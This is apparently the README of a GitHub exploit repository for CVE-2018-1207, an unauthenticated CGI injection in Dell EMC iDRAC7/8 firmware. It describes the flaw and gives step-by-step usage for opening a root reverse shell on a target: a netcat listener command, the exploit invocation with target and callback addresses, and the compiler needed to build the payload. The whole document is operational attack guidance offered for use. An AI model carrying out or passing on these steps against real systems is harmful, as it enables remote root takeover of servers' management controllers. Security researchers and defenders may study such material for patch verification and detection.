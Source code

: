 # cve-2018-1207
Exploit iDRAC 7 &amp; 8 firmware  &lt;  2.52.52.52

## Description
Dell EMC iDRAC7/iDRAC8, versions prior to 2.52.52.52, contain CGI injection vulnerability which could be used to execute remote code. A remote unauthenticated attacker may potentially be able to use CGI variables to execute remote code.

This code should cause the iDRAC service to open a reverse shell as the root user.

## Usage
Start your local listener:
nc -v -l -p local_port

`nc -v -l -p  5500`

Run the exploit:
python ./cve-2018-1207.py remote_host remote_port local_host local_port

`python ./cve-2018-1207.py 192.168.1.10 443 192.168.1.200 5500`

## Requirements
You need to have a version of `sh4-linux-gnu-gcc` installed, which currently is `sh4-linux-gnu-gcc-11`

You can install it with `apt install gcc-11-sh4-linux-gnu`
